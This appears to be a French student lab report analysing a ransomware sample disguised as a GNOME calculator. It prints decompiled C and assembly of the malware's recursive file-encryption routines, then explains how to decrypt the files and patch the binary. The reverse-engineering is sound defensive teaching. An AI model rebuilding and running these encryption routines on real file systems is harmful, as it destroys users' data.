


# SLB-2024 – Labo01 – ransTroj

## Auteurs

    - Amir Mouti
    - Ouweis Harun
    - Nathan Rayburn

## First Part

### Question 3.1

Un xor avec 0xff sur un byte fait un bit flip sur tout les bits. On peut simplement exécuter le programme à nouveau ce qui va flip tous les bits une deuxième fois et on retourne à l'état initial du fichier.

```c
int writeIntoFile(FILE* fp, int data){
    fseek(fp,-1L,SEEK_CUR);
    return fputc(data, fp);
}

void encrypt(FILE* fp){
     int ch;
     
     const unsigned CONST_XOR = 0xff;

    while ((ch = fgetc(fp)) != EOF){
        
        int temp = ch ^ CONST_XOR;
        
        if(writeIntoFile(fp,temp) == EOF){
            fprintf(stderr, "Failed to write into file  \n");
            return -1;
        }
    }
}
```

### Manipulation 3.2

SEEK_CUR = 1

---

## Second Part: Structure du code

### Manipulation 4.1




### Question 4.1 : Que fait le code au début de `main` avant l'invocation de la fonction `is_prime` ? Quel est le but du malware, d'après vous ?

Le malware lance l'application calculator de gnome afin de faire passer son véritable attaque malicieuse en arrière-plan sur le main thread. Le thread qui est lancé contient l'application calculator. La synchronisation des threads se fait à la fin de l'attaque du chiffrement du directory.

Le but du malware ici est de passer inaperçu en se faisant passer pour une calculatrice.

### Question 4.2 : Que fait la fonction `is_prime` invoquée au début du `main` ? Quel est le but du malware, d'après vous ?

La fonction `is_prime` permet de savoir si les deux valeurs passées en paramètres sont premières entre elles.

### Question 4.3 : Quelles sont les valeurs passées aux appels à `is_prime` ?

Deux valeures premières entre elles.

### Question 4.4 : Que fait le code C selon les différentes valeurs de retour de la fonction `is_prime` ?

Si la somme de tous les retours de `is_prime` vaut `4`, on appelle encrypt_dir qui va faire des appels récursifs pour chiffrer tous les dossiers dans le dossier courant et les dossiers qu'il contient jusqu'en bas. Sinon, on ne fait rien et on passe à la suite.

### Question 4.5 : Que fait la fonction `encrypt_dir` invoquée après l’appel à `is_prime` dans `main` ?

La fonction `encrypt_dir` s'occupe de la récursion pour descendre dans l'arbre de système de fichiers. Elle lit le contenu du dossier courant et lance un appel récursif pour les dossier et lance une des fonctions encrypt pour les fichiers.

### Question 4.6 : Quelles sous-fonctions sont appelées par la fonction `encrypt_dir` et à quelle condition ?

Les fonctions encrypt sont appelées seulement pour les fichiers et si le fichier ne correspond pas à calc (le malware ne veut pas se chiffrer lui-même). Le programme compte le nombre de 's' dans le nom du fichier et utilise la fonction encrypt en fonction du nombre:

le nombre de caractère `s` modulo `4` et `res` définit comme le résultat  du modulo :

- `res = 0` : `encrypt0`  
- `res = 1` : `encrypt1`  
- `res >= 2` : `encrypt2`

### Question 4.7 : Quelles exceptions prévoit le code de `encrypt_dir` ? Pourquoi ?

- Si `opendir` rend `nullptr`: ouverture du dossier n'a pas marché.
- Si le nom du dossier est '..' ou '.': le programme ne veut pas ouvrir le dossier courant et il ne veut pas remonter l'arborescence.
- Si le fichier est lui-même: le programme ne veut pas se chiffrer lui-même.

### Manipulation 4.2

code commenté et renommé de encrypt_dir

```c
void encrypt_dir(char *dir_path, char *calc) {
  int iVar1;
  char dir_entry_name[4096];
  uint number_of_s;
  size_t dir_entry_name_len;
  FILE *file;
  dirent *dir_entry;
  DIR *cur_dir;

  // Open the directory
  cur_dir = opendir(dir_path);
  if (cur_dir != (DIR *)0x0) {
    // Read each entry in the directory
    while ((dir_entry = readdir(cur_dir)) != (dirent *)0x0) {
      snprintf(dir_entry_name, 0x1000, "%s/%s", dir_path, dir_entry->d_name);

      // Check if entry is a folder; if so, recurse unless it’s "." or ".."
      if (dir_entry->d_type == '\x04') {
        iVar1 = strcmp(dir_entry->d_name, ".");
        if ((iVar1 != 0) && (iVar1 = strcmp(dir_entry->d_name, ".."), iVar1 != 0)) {
          encrypt_dir(dir_entry_name, calc);
        }
      }
      else {
        // If entry is a file, check that it isn't the same as this program's name
        if ((dir_entry->d_type == '\b') && (iVar1 = strcmp(dir_entry_name, calc), iVar1 != 0)) {
          file = fopen(dir_entry_name, "r+"); // Open file for read/write

          // Get the file name length and count occurrences of 's' in the name
          dir_entry_name_len = strlen(dir_entry->d_name);
          number_of_s = char_occurences(dir_entry->d_name, dir_entry_name_len, 0x73);
          number_of_s = number_of_s & 3; // Modulo 4 operation

          // Encrypt based on the count of 's' (0 -> encrypt0, 1 -> encrypt1, 2+ -> encrypt2)
          if (number_of_s == 0) {
            encrypt0(file);
          } else if (number_of_s == 1) {
            encrypt1(file);
          } else {
            encrypt2(file);
          }
          fclose(file); // Close the file
        }
      }
    }
    closedir(cur_dir); // Close the directory
  }
  return;
}
```

### Question 4.8 : Analysez le code assembleur correspondant à la fonction `encrypt_dir`

- **Parties de gestion de la pile** :

**Prologue :**

```
            080496c5  55                    PUSH            EBP
            080496c6  89 e5                 MOV             EBP,ESP
            080496c8  81 ec 28 10           SUB             ESP,0x1028
                            00 00
            080496ce  83 ec 0c              SUB             ESP,0xc
```

```
            080496d1  ff 75 08              PUSH            dword ptr [EBP + dir_path]
            080496d9  83 c4 10              ADD              ESP,0x10

            ...

            080496f4  83 ec 0c              SUB              ESP,0xc
            080496f7  50                    PUSH            EAX
            080496f8  ff 75 08              PUSH            dword ptr [EBP + dir_path]
            080496fb  68 08 a0 04           PUSH            s_%s/%s_0804a008
                              08
            08049700  68 00 10 00           PUSH            0x1000
                              00

            ...

            0804970b  50                    PUSH            EAX


            08049711  83 c4 20              ADD              ESP,0x20

            ...

            08049725  83 ec 08              SUB              ESP,0x8
            08049728  68 0e a0 04           PUSH            DAT_0804a00e
                              08
            0804972d  50                    PUSH            EAX

            08049733  83 c4 10              ADD              ESP,0x10

            ...

            08049744  83 ec 08              SUB              ESP,0x8
            08049747  68 10 a0 04           PUSH            DAT_0804a010
                              08
            0804974c  50                    PUSH            EAX

            08049752  83 c4 10              ADD              ESP,0x10

            0804975d  83 ec 08              SUB              ESP,0x8
            08049760  ff 75 0c              PUSH            dword ptr [EBP + calc]

            ...

            08049769  50                    PUSH            EAX

            0804976f  83 c4 10              ADD              ESP,0x10
            
            ...

            08049786  83 ec 08              SUB              ESP,0x8
            08049789  ff 75 0c              PUSH            dword ptr [EBP + calc]
            
            ...

            08049792  50                    PUSH            EAX

            08049798  83 c4 10              ADD              ESP,0x10

            080497a3  83 ec 08              SUB              ESP,0x8
            080497a6  68 13 a0 04           PUSH            DAT_0804a013
                              08
            ...

            080497b1  50                    PUSH            EAX

            080497b7  83 c4 10              ADD              ESP,0x10

            ...

            080497c6  50                    PUSH            EAX

            080497cc  83 c4 10              ADD             ESP,0x10

            ...

            080497d8  83 ec 04              SUB             ESP,0x4
            080497db  6a 73                 PUSH            0x73
            080497dd  ff 75 e8              PUSH            dword ptr [EBP + dir_entry_name_len]
            080497e0  50                    PUSH            EAX

            080497e6  83 c4 10              ADD              ESP,0x10

            ...

            080497f5  83 ec 0c              SUB              ESP,0xc
            080497f8  ff 75 ec              PUSH            dword ptr [EBP + file]

            08049800  83 c4 10              ADD              ESP,0x10

            ...

            0804980b  83 ec 0c              SUB              ESP,0xc
            0804980e  ff 75 ec              PUSH            dword ptr [EBP + file]

            08049816  83 c4 10              ADD              ESP,0x10

            0804981b  83 ec 0c              SUB              ESP,0xc
            0804981e  ff 75 ec              PUSH            dword ptr [EBP + file]

            08049826  83 c4 10              ADD              ESP,0x10

            08049829  83 ec 0c              SUB              ESP,0xc
            0804982c  ff 75 ec              PUSH            dword ptr [EBP + file]

            08049834  83 c4 10              ADD              ESP,0x10

            0804983d  83 ec 0c              SUB              ESP,0xc
            08049840  ff 75 f4              PUSH            dword ptr [EBP + cur_dir]

            08049848  83 c4 10              ADD              ESP,0x10
            0804984b  89 45 f0              MOV             dword ptr [EBP + dir_entry],EAX
            0804984e  83 7d f0 00           CMP              dword ptr [EBP + dir_entry],0x0

            08049858  83 ec 0c              SUB              ESP,0xc
            0804985b  ff 75 f4              PUSH            dword ptr [EBP + cur_dir]

            08049863  83 c4 10              ADD              ESP,0x10
```

**Epilogue**

```assembly
            08049869  c9                        LEAVE
            0804986a  c3                        RET
```

- **Logique du chiffrement** :

On appelle char_occurences pour compter le nombre de 's' dans le filename. Les params de la fonction sont 0x73 le char 's', la longueur du nom du fichier et le pointeur vers le nom du fichier (qui est dans EAX et qu'on push)

```assembly
            080497db  6a 73                   PUSH           0x73
            080497dd  ff 75 e8                PUSH           dword ptr [EBP + dir_entry_name_len]
            080497e0  50                      PUSH           EAX
            080497e1  e8 9e fe ff ff          CALL           char_occurences
            080497e6  83 c4 10                ADD            ESP,0x10
            080497e9  83 e0 03                AND            EAX,0x3
            080497ec  89 45 e4                MOV            dword ptr [EBP + number_of_s],EAX
```

Si le résultat de nombre de s modulo 4 = 0, on appelle encrypt0 puis on saute au code qui ferme le fichier

```
            080497ef  83 7d e4 00             CMP            dword ptr [EBP + number_of_s],0x0
            080497f3  75 10                   JNZ            LAB_08049805
            080497f5  83 ec 0c                SUB            ESP,0xc
            080497f8  ff 75 ec                PUSH           dword ptr [EBP + file]
            080497fb  e8 cd fa ff ff          CALL           encrypt0
            08049800  83 c4 10                ADD            ESP,0x10
            08049803  eb 24                   JMP            LAB_08049829
```

Si le résultat de nombre de s modulo 4 = 1, on appelle encrypt1 puis on saute au code qui ferme le fichier

```
            08049805  83 7d e4 01             CMP             dword ptr [EBP + number_of_s],0x1
            08049809  75 10                   JNZ             LAB_0804981b
            0804980b  83 ec 0c                SUB             ESP,0xc
            0804980e  ff 75 ec                PUSH            dword ptr [EBP + file]
            08049811  e8 29 fb ff ff          CALL            encrypt1
            08049816  83 c4 10                ADD             ESP,0x10
            08049819  eb 0e                   JMP             LAB_08049829
```

Si le résultat de nombre de s modulo 4 >=2, on execute encrypt2 puis on ferme le fichier

```
            0804981b  83 ec 0c                SUB             ESP,0xc
            0804981e  ff 75 ec                PUSH            dword ptr [EBP + file]
            08049821  e8 a5 fc ff ff          CALL            encrypt2
            08049826  83 c4 10                ADD             ESP,0x10
```

Fermeture du fichier

```assembly
            08049829  83 ec 0c                SUB             ESP,0xc
            0804982c  ff 75 ec                PUSH            dword ptr [EBP + file]
            0804982f  e8 1c f8 ff ff          CALL            <EXTERNAL>::fclose
```

---

## Third Part: Fonction `encrypt0`

### Manipulation 5.1

Dans Ghidra, afficher les codes C et assembleur de la fonction `encrypt0`.

### Question 5.1 : Que fait le code C affiché par Ghidra ?

Le code C fait un xor de tous les char dans un fichier donné. Si le char a son deuxième `lsb` à 0, il est xoré avec `0xef`, sinon il est xoré avec `0xbe`.

### Manipulation 5.2

code commenté et renommé de encrypt0

```c
void encrypt0(FILE *file) {
  uint currentChar;
  char res;
  
  while (true) {
    currentChar = fgetc(file); // Read a byte from the file
    if (currentChar == 0xffffffff) break; // Break if end of file is reached
    fseek(file, -1, 1); // Move file pointer back by one byte

    // Check the 2nd least significant bit of currentChar
    if ((currentChar & 2) == 0) {
      res = (int)(char)currentChar ^ 0xef; // XOR with 0xef if bit is 0
    } else {
      res = (int)(char)currentChar ^ 0xbe; // XOR with 0xbe if bit is 1
    }
    fputc(res, file); // Write the modified byte back to the file
  }
  return;
}
```

### Question 5.2 : Analysez le code assembleur correspondant à la partie chiffrement

- Identifiez les parties de gestion de la pile comme telle (sans les expliquer).

fp  = param_1
res = local_10

- **Gestion de stack :**

```assembly  
080492d5 83 ec 04        SUB        ESP, 0x4
080492d8 6a 01           PUSH       0x1
080492da 6a ff           PUSH       -0x1
080492dc ff 75 08        PUSH       dword ptr [EBP + fp]
...
08049313 83 ec 08        SUB        ESP, 0x8
08049316 ff 75 08        PUSH       dword ptr [EBP + fp]
08049319 ff 75 f4        PUSH       dword ptr [EBP + res]
...
08049324 83 ec 0c        SUB        ESP, 0xc
08049327 ff 75 08        PUSH       dword ptr [EBP + fp]
```

| Base + Offset | Comment |
|---------------|---------|
| `EBP` + param_1 | Pointeur de flux de fichier |
| `EBP` + local_10 | Variable de changement de byte |

**Expliquez les instructions qui implémentent la logique de la fonction `encrypt0`.**

**Première partie de la logique :** La condition qui décide quelle constante utiliser.

```assembly
080492ea 83 e0 02        AND        EAX, 0x2      @ Calculate second bit
080492ed 85 c0           TEST       EAX, EAX      @ Test EAX value is 0 without modifying EAX with AND op
080492ef 74 12           JZ         LAB_08049303  @ Jump if EAX is 0
```

**C Équivalent :**

```c
if ((uVar1 & 2) == 0) {
```

**Seconde partie :** XOR avec les constantes selon le résultat du test.
on fait un saut ou pas suivant si le `deuxième bit` est set à `1`.

```assembly
@ Simple xor avec la constante et le byte
0804930c 81 75 f4        XOR        dword ptr [EBP + local_10], 0xef 
...
@ Même chose mais avec l'autre constante si le 2ème bit vaut 1
080492fa 81 75 f4        XOR        dword ptr [EBP + local_10], 0xbe 
```

**C Équivalent :**

```c
local_10 = (int)(char)uVar1 ^ 0xef;
...
local_10 = (int)(char)uVar1 ^ 0xbe;
```

### Manipulation 5.3

Écrivez le code d’un programme capable de déchiffrer les fichiers chiffrés par la fonction `encrypt0`.

Voir la fonction decrypt0 dans le fichier main.c rendu.

---

## Fourth Part: Fonction `encrypt1`

### Manipulation 6.1

Dans Ghidra, afficher les codes C et assembleur de la fonction `encrypt1`.

### Question 6.1 : Que fait le code C affiché par Ghidra ?

Le code de encrypt1 chiffre un fichier byte par byte en faisant quelques manipulations `bitwise operations` avec des `shift`, `or` et ainsi une multiplication avec une `constante`.

Nous avions une constante qui évolue après chaque itération, donc chaque `byte` contient une addition d'une `constante` calculable.

### Manipulation 6.2

code commenté et renommé de encrypt1

```c
void encrypt1(FILE *fp) {
  int byteFromFile;
  undefined var;
  byte res;
  
  var = 7; // Initialize a variable used to alter each byte
  while (true) {
    byteFromFile = fgetc(fp); // Read a byte from the file
    if (byteFromFile == -1) break; // Break if end of file is reached
    fseek(fp, -1, 1); // Move file pointer back by one byte

    // Shift byte left by 2 and right by 6, OR the result, and add 'var'
    res = ((byte)byteFromFile << 2 | (byte)byteFromFile >> 6) + var;
    
    // Update 'var' by shifting 'res' and multiplying by '@' (ASCII 64)
    var = res >> 2 | res * '@';
    
    fputc((uint)res, fp); // Write the modified byte back to the file
  }
  return;
}
```

### Question 6.2 : Analysez le code assembleur correspondant à la partie chiffrement

- Identifiez les parties de gestion de la pile comme telle (sans les expliquer).

- **Préparation des arguments pour `fseek`, `fputc`, et `fgetc`** : plusieurs appels système sont utilisés dans la boucle pour manipuler et écrire les bytes dans le fichier.

  - **`fseek` :** prépare les arguments en ajustant la pile et en utilisant la valeur `-1` pour revenir d’un byte.
  
```assembly
0804934b 83 ec 04        SUB        ESP,0x4                 @ Grandir le stack pointer
0804934e 6a 01           PUSH       0x1                     @ 3ème arg
08049350 6a ff           PUSH       -0x1                    @ 2ème arg
08049352 ff 75 08        PUSH       dword ptr [EBP + fp]    @ 1er arg
08049355 e8 16 fd        CALL       <EXTERNAL>::fseek       @ Call
0804935a 83 c4 10        ADD        ESP,0x10                @ Raccourcir le stack pointer
```

- **`fputc` :** sauvegarde le résultat chiffré de chaque byte en ajustant la pile pour `fputc`.

```assembly
080493b6 83 ec 08        SUB        ESP,0x8                 @ Grandir le stack pointer
080493b9 ff 75 08        PUSH       dword ptr [EBP + fp]    @ 2ème arg
080493bc 50              PUSH       EAX                     @ 1er  arg
080493bd e8 4e fd        CALL       <EXTERNAL>::fputc       @ Call
080493c2 83 c4 10        ADD        ESP,0x10                @ Raccourcir le stack pointer
```

- **`fgetc` :** lit chaque byte du fichier jusqu’à atteindre la fin (`-1`).

    ```assembly
    080493c5 83 ec 0c        SUB        ESP, 0xc
    080493c8 ff 75 08        PUSH       dword ptr [EBP + param_1]
    080493cb e8 10 fd        CALL       <EXTERNAL>::fgetc
    080493d0 83 c4 10        ADD        ESP, 0x10
    ```


| Base + Offset | Rôle                      |
|---------------|---------------------------|
| `EBP + param_1` | Pointeur du flux de fichier |
| `EBP + local_d` | Constante évolutive pour le chiffrement |
| `EBP + local_14` | Variable temporaire pour le byte lu |
| `EBP + local_15` | Variable intermédiaire pour le byte chiffré |
| `EBP + local_16` | Valeur intermédiaire pour les opérations bitwise |
| `EBP + local_1c` | Constante de décalage pour les rotations |
| `EBP + local_1d` | Byte transformé par opérations de rotation |
| `EBP + local_24` | Constante utilisée dans le chiffrement |

- Expliquez les instructions qui implémentent la logique de la fonction `encrypt1`.

### Explication des instructions qui implémentent la logique de la fonction `encrypt1`

La logique de chiffrement de `encrypt1` est encapsulée dans la boucle `while`, où chaque byte est transformé individuellement avant d'être écrit à nouveau dans le fichier. Cette boucle alterne des opérations bitwise (décalage et rotation de bits) et la mise à jour d'une constante (`var`), influençant le chiffrement à chaque itération.

**Code Assembleur de la Boucle `while`**

La structure de base de la boucle se compose de lectures et écritures de bytes, ainsi que de la gestion de la pile pour appeler les fonctions de positionnement (`fseek`) et d’écriture (`fputc`).

```assembly
            LAB_0804934b
  934b SUB  ESP,0x4
  934e PUSH 0x1
  9350 PUSH -0x1
  9352 PUSH dword ptr [EBP + fp]
  9355 CALL <EXTERNAL>::fseek
  935a ADD  ESP,0x10
  935d MOV  EAX, dword ptr [EBP + local_14]
  9360 MOVZX EAX, AL
  9363 MOV  byte ptr [EBP + local_1d], AL
  9366 MOV  dword ptr [EBP + local_24], 0x2
  936d MOV  EDX, dword ptr [EBP + local_24]
  9370 MOVZX EAX, byte ptr [EBP + local_1d]
  9374 MOV  ECX, EDX
  9376 ROL  AL, CL
  9378 MOV  byte ptr [EBP + local_1d], AL
  937b MOVZX EAX, byte ptr [EBP + local_1d]
  937f MOV  byte ptr [EBP + local_15], AL
  9382 MOVZX EAX, byte ptr [EBP + var]
  9386 ADD  byte ptr [EBP + local_15], AL
  9389 MOV  EAX, dword ptr [EBP + local_14]
  938c MOV  byte ptr [EBP + var], AL
  938f MOVZX EAX, byte ptr [EBP + local_15]
  9393 MOV  byte ptr [EBP + local_16], AL
  9396 MOV  dword ptr [EBP + local_1c], 0x2
  939d MOV  EDX, dword ptr [EBP + local_1c]
  93a0 MOVZX EAX, byte ptr [EBP + local_16]
  93a4 MOV  ECX, EDX
  93a6 ROR  AL, CL
  93a8 MOV  byte ptr [EBP + local_16], AL
  93ab MOVZX EAX, byte ptr [EBP + local_16]
  93af MOV  byte ptr [EBP + var], AL
  93b2 MOVZX EAX, byte ptr [EBP + local_15]
  93b6 SUB  ESP, 0x8
  93b9 PUSH dword ptr [EBP + fp]
  93bc PUSH EAX
  93bd CALL <EXTERNAL>::fputc
  93c2 ADD  ESP, 0x10
```

**Partie chiffrement**

Le chiffrement commence après le fseek, on se repositionne sur le charactère qu'on va chiffrer.

On convertit le charactère lu en byte et on le stocke
```
            0804935d  8b 45 f0               MOV             EAX,dword ptr [EBP + local_14]
            08049360  0f b6 c0               MOVZX         EAX,AL
            08049363  88 45 e7              MOV             byte ptr [EBP + local_1d],AL
```
On met 2 dans un registre pour faire la rotation de 2 bits vers la gauche
```
            08049366  c7 45 e0 02         MOV             dword ptr [EBP + local_24],0x2
                              00 00 00
            0804936d  8b 55 e0              MOV             EDX,dword ptr [EBP + local_24]
```
On fait la rotation du char du fichier ((byte)byte_from_file << 2 | (byte)byte_from_file >> 6).
```
            08049370  0f b6 45 e7          MOVZX         EAX,byte ptr [EBP + local_1d]
            08049374  89 d1                   MOV             ECX,EDX
            08049376  d2 c0                   ROL              AL,CL
```
On met le résultat là ou on va additionner la variable au char
```
            08049378  88 45 e7              MOV             byte ptr [EBP + local_1d],AL
            0804937b  0f b6 45 e7          MOVZX         EAX,byte ptr [EBP + local_1d]
            0804937f  88 45 ef               MOV             byte ptr [EBP + local_15],AL
```
On effectue l'addition (le char final qui va être écrit est maintenant dans [EBP + local_15])
```
            08049382  0f b6 45 f7           MOVZX         EAX,byte ptr [EBP + mask]
            08049386  00 45 ef               ADD              byte ptr [EBP + local_15],AL

```
On se prépare à mettre à jour la variable (on copie le char final dans la stack)
```
            08049389  8b 45 f0               MOV             EAX,dword ptr [EBP + local_14]
             0804938c  88 45 f7               MOV             byte ptr [EBP + mask],AL
             0804938f  0f b6 45 ef           MOVZX         EAX,byte ptr [EBP + local_15]
            08049393  88 45 ee              MOV             byte ptr [EBP + local_16],AL
```
On prépare le 2 pour la rotation de 2 bits vers la droite
```
            08049396  c7 45 e8 02         MOV             dword ptr [EBP + local_1c],0x2
                              00 00 00
            0804939d  8b 55 e8              MOV             EDX,dword ptr [EBP + local_1c]
```
On met les valeurs dans les bon registres et on effectue la rotation.

Dans le code c, l'opération est écrite (bVar1 >> 2 | bVar1 * '@') mais elle revient à faire une rotation de 2 bits vers la droite, car le char '@' a une valeur de 64. Comme 64 est une puissance de 2, une multiplication revient à un shift de 6 bits vers la gauche. L'expression revient donc à faire une rotation (instruction ROR)
```
            080493a0  0f b6 45 ee          MOVZX         EAX,byte ptr [EBP + local_16]
            080493a4  89 d1                   MOV             ECX,EDX
            080493a6  d2 c8                   ROR              AL,CL

```
On met la variable à jour
```
            080493a8  88 45 ee              MOV             byte ptr [EBP + local_16],AL
            080493ab  0f b6 45 ee          MOVZX         EAX,byte ptr [EBP + local_16]
             080493af  88 45 f7               MOV             byte ptr [EBP + mask],AL
```
On bouge le char final dans EAX. La suite du code va le push sur la stack avant d'appeler fputc pour écrire dans le fichier.
```
            080493b2  0f b6 45 ef           MOVZX         EAX,byte ptr [EBP + local_15]
```

### Question 6.3 : Quelle/s instruction/s n’a/ont pas été vue/s en cours ? Que fait/font elle/s ?

- **ROR et ROL** : Cette instruction effectue une rotation à droite/gauche des bits. Contrairement au décalage, elle fait circuler les bits à travers le registre. Par exemple, un bit qui est "décalé" hors du côté droit réapparaît sur le côté gauche, et vice-versa.
- 
    ```assembly
    080493a6 d2 c8           ROR        AL, CL
    ```

### Manipulation 6.3

Écrivez le code d’un programme capable de déchiffrer les fichiers chiffrés par la fonction `encrypt1`.

Voir la fonction decrypt1 dans le fichier main.c rendu.

---

## Fifth Part: Fonction `encrypt2`

### Manipulation 7.1

Dans Ghidra, afficher les codes C et assembleur de la fonction `encrypt2`.

### Question 7.1 : Que fait le code C affiché par Ghidra ?

Le code fait un appel à une fonction generateKey et utilise son output pour initialiser les valeurs d'un tableau de 16 bytes (boucle for).

Ensuite le code va faire deux boucles while qui vont passer par tous les chars et les modifier:

La première boucle prend chaque char et lui soustrait une des valeurs du tableau de 16 bytes. La valeur du tableau est choisie à l'aide d'un indice qui commence à 0 et qui est incrémenté de 5 à chaque char. L'indice passe par un bitwise & avec 0xe suivi d'un + 1 avant d'être utilisé pour accéder à la valeur du tableau (le `& 0xe` permet de s'assurer qu'on ne dépasse pas la taille du tableau car il donne au maximum 14 et avec le + 1 on arrive à 15, le dernier élément du tableau). Cette manipulation restreint les valeurs du tableau qui sont utilisées car après `& 0xe + 1` l'indice est toujours impair.

En même temps, la première boucle construit un masque qui sera utilisé dans la deuxième boucle. Le masque commence à 0 et à chaque char lu, on xor le char non-modifié avec le mask puis on fais une "rotation" ( mask >> 2 | mask << 6 ) pour donner le nouveau masque.

Dans la deuxième boucle on recommence au début du fichier on xor tous les chars avec le masque en incrémentant le masque de 4 après chaque xor.

Avant de terminer, le code écrit l'état final du masque dans le fichier (sa taille est donc plus grande de 1 byte).

### Manipulation 7.2

code commenté et renommé de encrypt2

```c
void encrypt2(FILE *file)

{
  uint uVar1;
  byte bVar2;
  byte bVar3;
  uint shifted_key;
  byte mask_array [16];
  byte end_of_mask_arr;
  byte local_29;
  int char_from_file;
  ulonglong key;
  uint mask_arr_iter;
  byte mask;
  int iter;
  
  key = generateKey(0x63763789,0xd81,0x10001,0,0x63763789,0xd81);
  shifted_key = (uint)(key >> 0x20);
  //for loop to initialize the array of bytes. The array is initialized from both sides:
  for (iter = 1; iter < 9; iter = iter + 1) {
    bVar3 = (byte)(iter * 8);
    bVar2 = bVar3 & 0x1f;
    bVar2 = (byte)((uint)key >> bVar2) | (byte)(shifted_key << 0x20 - bVar2);
    if ((iter * 8 & 0x20U) != 0) {
      bVar2 = (byte)(shifted_key >> (bVar3 & 0x1f));
    }
    //init of the first half
    mask_array[iter] = bVar2;
    uVar1 = (7 - iter) * 8;
    bVar3 = (byte)uVar1;
    bVar2 = bVar3 & 0x1f;
    bVar2 = (byte)((uint)key >> bVar2) | (byte)(shifted_key << 0x20 - bVar2);
    if ((uVar1 & 0x20) != 0) {
      bVar2 = (byte)(shifted_key >> (bVar3 & 0x1f));
    }
    //init of the latter half
    (&end_of_mask_arr)[-iter] = bVar2;
  }
  mask = 0;
  mask_arr_iter = 0;
  //first modification and building the mask for the second modification
  while( true ) {
    char_from_file = fgetc(file);
    if (char_from_file == -1) break;
    fseek(file,-1,1);
    //update mask
    mask = mask ^ (byte)char_from_file;
    _end_of_mask_arr = 2;
    //rotate mask
    local_29 = mask >> 2 | mask << 6;
    //increment the index of the mask array
    mask_arr_iter = mask_arr_iter + 5 & 0xe;
    char_from_file = (int)(char)(byte)char_from_file - (int)(char)mask_array[mask_arr_iter + 1];
    mask = local_29;
    fputc(char_from_file,file);
  }
  fseek(file,0,0);
  //second modification
  while( true ) {
    char_from_file = fgetc(file);
    if (char_from_file == -1) break;
    fseek(file,-1,1);
    //apply mask
    char_from_file = (int)(char)((byte)char_from_file ^ mask);
    //update mask
    mask = mask + 4;
    fputc(char_from_file,file);
  }
  fputc((int)(char)mask,file);
  return;
}
```

### Question 7.2 : Vous voulez restaurer les fichiers chiffrés avec `encrypt2`. Pourquoi n’est-il pas nécessaire de faire le reverse de la fonction appelée par `encrypt2` ?

Car cette fonction ne modifie pas le fichier directement, elle génère une valeur qui est utilisée pour initialiser un tableau qui n'est plus modifié après. De plus, les arguments de cette fonction sont des constantes. On n'a donc pas besoin de la reverse pour restaurer les fichiers, on a seulement besoin des valeurs du tableau pour pouvoir inverser les transformations sur les fichiers.

### Manipulation 7.3

Écrivez le code d’un programme capable de déchiffrer les fichiers chiffrés par la fonction `encrypt2`.

Voir la fonction decrypt2 dans le fichier main.c rendu.

---

## Sixth Part: Réparation (6 points)

### Manipulation 8.1

En utilisant les programmes que vous avez codés, déchiffrez tous les documents fournis dans le dossier /home.

### Question 8.1 : Expliquez l’algorithme de déchiffrement que vous avez implémenté. Indiquez les formules mathématiques appliquées par chaque méthode de déchiffrement ainsi que la logique du flux d’instruction qui permet d’appliquer l’une ou l’autre

Decrypt0:

Le chiffrement est simplement un xor qui dépend du deuxième bit du char. On peut xorer le char avec une des valeurs et vérifier si le bit est le bon, puis l'écrire dans le fichier si c'est le cas. Sinon, on le xor avec l'autre valeur avant de l'écrire dans le fichier.

Formule mathématique:
    pt xor mask = cipher
    cipher xor mask = pt

Decrypt1:

On soustrait d'abord au char une variable qui est mise à jour après chaque char. Ensuite, on effectue une "rotation" sur le char (shift des bits de 2 vers la droite avec les bits qui sortent sont ajoutés de l'autre côté). On met à jour la variable avec: 
    var = byteFromFile >> 2 | byteFromFile * '@'

Où byteFromFile est le char chiffré. Var commence à 7

Decrypt2:

Le chiffrement utilise une fonction puis une boucle pour initialiser un tableau de bytes qui sont utilisés pour modifier les chars. Comme le tableau n'est plus modifié après la séquence d'initialisation, on peut utiliser gdb sur le programme calc original pour récupérer les valeurs finales du tableau et les coder en dur.

Ensuite, on récupère le masque qui est le dernier char du fichier et on lui soustrait 4 * nb de char dans le fichier moins 1 (on ne compte pas le masque) pour le restaurer à son état dans lequel il était quand le premier char a été modifié.

On retourne au début du fichier et on xor tous les chars avec le masque en le mettant à jour à mask += 4 après chaque char.

On retourne encore une fois au début du fichier et cette fois on additionne le char avec une des valeurs du tableau choisie avec un index qui commence à 0 et qu'on incrémente de cette manière avant chaque char:
    index = (index + 5 & 0xe)+1


### Manipulation 8.2

En utilisant Ghidra, patchez le programme `calc` pour qu’il puisse à nouveau être utilisé sans risque.

```assembly
080498b4  e9 f8 00 00          JMP               LAB_080499b1
                  00
```

Le programme patché est le fichier binaire  `calc_inoff`
